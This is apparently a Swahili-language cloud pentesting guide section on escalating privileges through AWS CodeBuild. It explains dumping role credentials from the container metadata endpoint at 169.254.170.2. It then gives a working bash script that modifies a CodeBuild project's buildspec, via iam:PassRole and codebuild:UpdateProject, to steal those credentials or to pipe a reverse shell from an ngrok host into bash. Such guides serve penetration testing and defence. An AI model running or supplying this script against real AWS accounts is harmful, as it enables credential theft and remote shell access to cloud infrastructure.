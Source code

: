 **Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa jukumu lolote la AWS Codebuild.

> [!WARNING]
> Katika **konteina ya Codebuild** faili `/codebuild/output/tmp/env.sh` ina kila mabadiliko ya env yanayohitajika kufikia **akiba ya metadata**.

> Faili hii ina **mabadiliko ya env `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** ambayo ina **njia ya URL** ya kufikia akiba. Itakuwa kitu kama hii `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

> Ongeza hiyo kwenye URL **`http://169.254.170.2/`** na utaweza kudump akiba ya jukumu.

> Zaidi ya hayo, pia ina **mabadiliko ya env `ECS_CONTAINER_METADATA_URI`** ambayo ina URL kamili ya kupata **taarifa za metadata kuhusu konteina**.

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Kama ilivyo katika sehemu ya awali, ikiwa badala ya kuunda mradi wa kujenga unaweza kuubadilisha, unaweza kuonyesha Jukumu la IAM na kuiba tokeni.
```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa jukumu lolote la AWS Codebuild.
